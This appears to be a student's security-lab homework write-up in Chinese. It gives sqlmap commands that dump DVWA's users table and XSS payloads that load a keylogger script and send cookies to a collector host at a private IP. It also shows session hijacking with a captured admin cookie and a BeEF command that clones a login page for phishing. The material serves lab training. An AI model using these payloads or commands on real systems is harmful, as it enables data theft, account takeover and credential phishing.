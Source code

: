 # 作用1：
使用 sqlmap 工具完成对 DVWA 数据库的注入过程，要求按照库、表、列、内容的顺序进行注入。
- 首先将dvwa的sql-injection使用burp抓包，然后让数据包内容复制到demo.txt文档，并保持在新建的file目录下

```
指令：python sqlmap.py -r file/demo.txt" --batch --dbs
```
![Alt text](image.png)

```
指令：python sqlmap.py -r file/demo.txt" --batch --tables -D dvwa
```
![Alt text](image-1.png)
```
指令：python sqlmap.py -r file/demo.txt" --batch --columns -T users -D dvwa
```
![Alt text](image-2.png)
```
指令：python sqlmap.py -r file/demo.txt" --batch -D dvwa -T users -C last_name,password --dump
```
![Alt text](image-3.png)

# 作业2：
练习课件上给出的SQL注入绕过方式
- 练习收获：发现了如果#，空格和斜杠都被限制使用的情况下，--'可以代替，实现sql语句的闭合

# 作业3：
## 1.使用pikachu平台练习XSS键盘记录
```
1. 将恶意文件的js代码，插入dvwa的网站中
<script src="http://192.168.0.90:8081/pkxss/rkeypress/rk.js"></script>

2. 成功后，在pikachu的后台，可以看到插入到dvwa代码的页面上，所有的键盘记录
```
![Alt text](image-4.png)
![Alt text](image-5.png)

## 2.前台XSS盲打攻击获取cookie
```
目标设备：192.168.0.90:8083
恶意服务器：192.168.0.90：8081

1. 将恶意文件的js代码，提交到xss盲打后台
<script>document.write('<img src="http://192.168.0.90:8081/pkxss/xcookie/cookie.php?cookie='+document.cookie+'"/>')</script>

2.在192.168.0.90:8083登录后台后，代码自动执行，在192.168.0.90:8081的管理后台能看到收集到的cookie信息
ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=7k44l2c1evhp7potr0shc98mmc

3. 在chrome（新浏览器）上打开(http://192.168.0.90:8083/vul/xss/xssblind/admin_login.php)

4. 使用cookie editor 填写收集到的cookie信息，登录

5. 登录成功，试验成功
```
![Alt text](image-7.png)
![Alt text](image-6.png)

## 3. 使用beef制作钓鱼页面，克隆任意站点的登录页面并获取用户登录的账号密码
- 步骤一：克隆网站
```
curl -H "content-Type: application/json; charset=UTF-8" -d '{"url":"http://192.168.0.88:8082/login.php", "mount":"/clone_dvwa"}' -X POST http://192.168.0.99:3000/api/seng/clone_page?token=3a6f9f84c50de06a392055d6d8f928974de02787

```
![Alt text](image-12.png)

- 登录 -> http://192.168.0.99:3000/clone_bl 成功

![Alt text](image-11.png)

- 获取账号密码

![Alt text](image-10.png)
